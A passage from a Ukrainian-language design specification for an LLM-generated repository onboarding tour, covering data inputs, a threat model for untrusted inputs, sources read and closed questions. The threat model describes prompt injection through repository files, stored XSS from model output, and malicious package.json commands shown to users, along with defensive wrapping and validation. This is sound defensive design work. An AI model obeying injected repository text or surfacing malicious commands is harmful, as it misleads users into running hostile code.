| Зразки вмісту файлів | `GitClient.readFile` за шляхами з рангу | 20 × 6 000 символів (D23) | так, доки клон не пересинхронізовано |
| Наявні документи проєкту | `GitClient.readFile` (`README`, `AGENTS.md`, якщо є) | найнижчий пріоритет, стискається першим (D13) | так |
| Системний промт | `server/src/prompts/onboarding.system.md`, із підставленими `{{sections}}` і `{{language}}` | фіксований | так |
| Провайдер і модель | `resolveFeatureModel(…, 'onboarding')` → налаштування воркспейсу, інакше реєстр (`contracts/platform.ts:44-50`) | — | так |
| Ключ провайдера | `SecretsProvider` (`~/.devdigest/secrets.json`, 0600) — **ніколи** `AppConfig` чи `process.env` | — | — |
| Відповідь моделі | один структурований виклик | схема `Onboarding` | **ні** — недетермінована за побудовою |

## Untrusted inputs

| Вхід | Хто ним керує | Що система зобов'язана зробити |
|---|---|---|
| Вміст файлів репозиторію | автор репозиторію; на імпортованому публічному — будь-хто з правом коміту | обрізати за стелею **до** обгортання, обгорнути під спільним `INJECTION_GUARD`, ніколи не виконувати як інструкцію (AC-49, AC-70); обрізання не ріже обгортку (AC-79) |
| **Вміст `package.json` та лок-файлів** | те саме | обгорнути так само; **і окремо** — те, що з нього виходить, є командою, яку читача запрошують скопіювати і запустити. Показувати лише скрипт, що існує в `package.json` **цього** пакета (AC-23); менеджер — лише той, що диктує лок-файл **цього** пакета (AC-25); без лок-файлу — без команди встановлення (AC-87); показувати повністю, без обрізання (AC-20); підписати як команду репозиторію (AC-69); не давати жодного контролу, що її виконує (AC-22). Це найдовший ланцюг «чужий текст → дія людини» в усій фічі |
| Шляхи файлів у репозиторії | автор репозиторію | правила repo-відносного шляху перед будь-яким використанням: без `..`, без абсолютних, без керуючих символів, без `.git/`, без симлінка за межі клону (AC-41) |
| **Відповідь моделі: `body`** | модель, а через промт — той, хто написав вміст репозиторію | рендерити недовіреним рендерером: вбудований HTML як текст, протокол поза `http`/`https` не клікабельний (AC-68). Це **stored** XSS, а не разовий: запис лежить у `onboarding.json` і віддається на кожне відкриття будь-кому у воркспейсі |
| **Відповідь моделі: `links[].path` і шляхи у прозі** | модель | перевірка існування в клоні (AC-37); те, що не існує, — викидається (AC-38) або лишається текстом (AC-39); правила побудови URL — до того, що лишилося (AC-41). Найсильніший контроль фічі: схема обмежує **форму** відповіді, а існування файлу — її **зміст** |
| **Відповідь моделі: `complexity`** | модель | пошук у **закритому** переліку з трьох значень; поза переліком — задача відхиляється, а не нормалізується (AC-32) |
| **Відповідь моделі: `kind` секції** | модель | те саме, закритий перелік із п'яти; поза ним — секція відхиляється (AC-42). Не гіпотетично: `gotchas` і `routes_and_apis` лежать у промті й перекладі (D11) |
| **Відповідь моделі: `diagram` (mermaid)** | модель | рендерити в найсуворішому режимі рендерера — mermaid будує SVG, тобто виконуваний за формою вміст, а підписи вузлів — рядки від моделі. Джерело, що не парситься, дає секцію без діаграми, а не зламану сторінку (AC-12); порожній рядок — не діаграма (AC-80); вузли не клікабельні і шляхами не називаються (AC-13, AC-77) |
| **Відповідь моделі: `title`** | модель | **на екран не виводиться взагалі** (AC-85). Заголовок береться з `messages/en` за `kind`. Це усуває цілий клас питань про рендер цього рядка — його немає на сторінці |
| `repo_id` у маршруті | клієнт | резолвити репозиторій через воркспейс викликача **до** будь-якої витрати; чужий і неіснуючий відповідають однаково (AC-9, AC-61) |
| Частота запитів на генерування | клієнт | межа частоти на маршруті генерування (AC-61); це єдиний маршрут фічі, що витрачає гроші |

**Залишковий ризик, названий прямо.** Обгортка і `INJECTION_GUARD` знижують імовірність того, що
текст із чужого репозиторію перевизначить задачу моделі, і не скасовують її. Що робить цю поверхню
вужчою за поверхню рев'ю: вивід структурований, кожне посилання перевіряється детерміновано після
виклику, і сам тур нічого не запускає.

Але одна річ тут **гірша**, ніж у рев'ю, і спека зобов'язана це сказати: тур навмисно показує
**команди для запуску**, і команда, що справді лежить у `package.json` чужого репозиторію,
проходить заземлення чесно — бо вона справжня. Найгірший досяжний наслідок — читач копіює
шкідливу команду з екрана DevDigest і запускає її у себе. Це не усувається заземленням і не
усувається промтом. Пом'якшується трьома речами разом (AC-20, AC-22, AC-69): команда показана
цілком, застосунок її не виконує, і поруч сказано, що вона з репозиторію. Це прийнята ціна секції
«Як запустити», а не усунений ризик — і після відповіді на Q-4 секція стала **ширшою**, бо тепер
показує команди кожного пакета, а не лише кореневого.

## Sources

Прочитано, пишучи цю специфікацію:

- **Макет `specs/assets/SPEC-03-onboarding-tour.png`** — відкритий і прочитаний візуально до
  першого рядка спеки. З нього взято: порядок і заголовки п'яти секцій, бічну навігацію «ON THIS
  PAGE», хлібні крихти й заголовок `Onboarding for payments-api`, рядок походження, кнопки
  `Regenerate` і `Share link`, форму рядка критичного шляху з кнопкою `Open`, кроки запуску з
  контролом копіювання, порядок читання з причинами, картки перших тасок із бейджами складності.
- **Промт диспатчу** — дослівні вимоги людини і п'ять фактів, які вона вже встановила (кожен
  перевірено проти коду, жоден не спростовано).
- **Відповіді людини і координатора 2026-08-17** на сім питань першої редакції — джерело
  D17…D23, AC-82…AC-88 і переписаних AC-19, AC-23, AC-25.
- `AGENTS.md` (зокрема `:5` про відсутність воркспейсу і `:32` про два менеджери),
  `server/AGENTS.md`, `client/AGENTS.md`.
- `specs/README.md`, `specs/SPEC-01-project-context.md`, `specs/SPEC-02-pr-why-risk-brief.md`.
- `docs/architecture.md` — топологія пакетів; звідки індекс і що на ньому вже стоїть.
- **`server/src/prompts/onboarding.system.md`** — увесь файл. Готовий системний промт саме цієї
  фічі: параметри `{{sections}}` і `{{language}}`, правила заземлення, стеля в 4 посилання,
  правила mermaid, заборона HTML, заборона перекладати ідентифікатори.
- `server/src/vendor/shared/contracts/knowledge.ts:28-47,152-229` — `Onboarding`/`OnboardingSection`/
  `OnboardingLink`, і `ConventionCategory`/`ConventionCandidate` як прецедент закритої таксономії
  та перевіреного доказу.
- `server/src/vendor/shared/contracts/platform.ts:12-83` — `FeatureModelId` `onboarding`, його
  лейбл, опис і дешевий дефолт.
- `server/src/db/schema/context.ts:100-160` — таблиця `onboarding` (три колонки, PK `repo_id`,
  каскад).
- `server/src/modules/repo-intel/README.md` — конвеєр, повний перелік фасаду, хто його вже читає,
  і рядок про «Onboarding reading-path».
- `server/src/modules/repo-intel/types.ts:25-50,195-220` — `IndexStatus`, `DegradedReason`,
  `IndexState`, і блок T3 із `getTopFilesByRank` / `getCriticalPaths`.
- `server/src/modules/repo-intel/service.ts:670-712` — реалізація обох.
- `server/src/modules/repo-intel/constants.ts:14,52-53` — `SUPPORTED_EXT`, `MAX_INDEXED_FILES`,
  `MAX_FILE_SIZE`. Джерело D16, D19, AC-73, AC-75.
- `server/src/modules/conventions/{routes,constants,helpers,service}.ts` — найближчий аналог
  цілком: пара GET/POST, `EXTRACT_RATE_LIMIT`, усі стелі й таймаут, `verifyEvidence`,
  лічильники відкинутого і рядок аудиту в лозі.
- `server/src/modules/_shared/budget.ts` — де насправді живе `selectWithinBudget` після переїзду.
- `server/src/modules/brief/{service,helpers}.ts` — перевірка членства, написана вручну, і
  single-flight `Map`, що став AC-74.
- `server/src/platform/{price-book,jobs,resilience,errors}.ts` — `PriceBook.estimate` і TTL,
  `JobRunner` на `p-queue`, `ConfigError`.
- `reviewer-core/src/grounding.ts:1-16` — чому гейт рев'ю тут не застосовний.
- `reviewer-core/src/llm/structured.ts:50-79` — `parseWithRepair` і коментар про markdown-огорожі
  саме в onboarding `body`.
- `client/src/vendor/ui/nav.ts:1-81` — групи, `key`, `gKey`, зайняті літери, і що `SHORTCUTS`
  підтримується вручну.
- `client/src/components/app-shell/helpers.ts:29` — `activeKeyFor` і колізія двох маршрутів.
- `client/src/components/context-doc-view/DocumentReader.tsx` — єдиний недовірений
  markdown-рендерер; те, чим виконується AC-68.
- `client/src/components/mermaid-diagram/MermaidDiagram.tsx` — наявний компонент, нуль споживачів.
- `client/src/lib/hooks/conventions.ts:8-28` — зразок «платний перерахунок → `setQueryData`».
- `client/messages/en/onboarding.json`, `client/messages/en/shell.json:19` — наявні порожній стан,
  CTA, помилка і підпис пункту навігації; звідси розбіжність D11.
- `client/src/app/onboarding/page.tsx`, `e2e/specs/06-onboarding.flow.json` — що таке наявний
  `/onboarding` і що його стереже.
- `INSIGHTS.md:205-212` — правило проти вигаданих рядків заради екрана.
- `client/INSIGHTS.md:1600-1635` — чому нуль і «невідомо» рендеряться по-різному.
- OWASP Top 10:2025 — A01 (розмежування орендарів), A05 (stored XSS від згенерованого вмісту),
  A06 (межа частоти), і розділ про агентні ризики, звідки взято «не виконувати згенерований код».

**Чого прочитати не вдалося:** нічого. Усі джерела, названі в диспатчі, включно з макетом, лежали
в репозиторії і були відкриті.

**Що встановлено дослідженням, а не читанням диспатчу.** Три read-only дослідження по
`repo-intel`, по машинерії виклику моделі й по клієнтських конвенціях. Найдорожча знахідка —
`onboarding.system.md`: диспатч його не називав, макет про нього не знає, і без нього спека
описувала б форму, яку хтось уже обрав. Друга — `SUPPORTED_EXT`: без неї спека мовчазно
припускала б, що індекс бачить будь-який репозиторій, і відповідь на Q-6 не мала б підстави.

## Open questions

_Немає._

**Усі вісім питань закриті 2026-08-17.** П'ять закрила людина — Q-1, Q-4, Q-6, Q-7, Q-8; три
координатор — Q-2, Q-3, Q-5. Кожне живе як рішення з автором, а не як викреслений рядок:
D17 (Q-1), D18 (Q-4), D19 (Q-6), D20 (Q-7), D21 (Q-2), D22 (Q-5), D23 (Q-3), D24 (Q-8).
Таблиці тут немає навмисно — питання, що лишилося в ній після відповіді, читається як
невирішене.

**Відповідь на Q-8 нового питання не відкрила, і це твердження перевірене, а не заявлене.** Три
підпитання, які вона підняла, закриті критеріями, бо на кожне відповідає код, а не смак:
чи виключає порт `node_modules` — виключає, і AC-93 фіксує наслідок замість другого списку;
що робити при нулі пакетів — AC-24, одним текстом і без відмови від туру; як не дати стелі
зрізати не те — AC-91, проти зрізу за `maxFiles` до фільтра. Єдине, що лишається невизначеним
за задумом, — самі числа глибини і стелі, і вони невизначені **правильно**: названі, стартові,
з умовою перегляду і з видимим сигналом переповнення (D24, AC-90), рівно як числа вибірки в
D23.

**Що це означає для схвалення.** Спека повна в тому сенсі, у якому `specs/README.md` вимагає:
її можна планувати, не ставлячи авторові запитань. Незакритим лишається один акт — саме
схвалення, і воно за людиною.
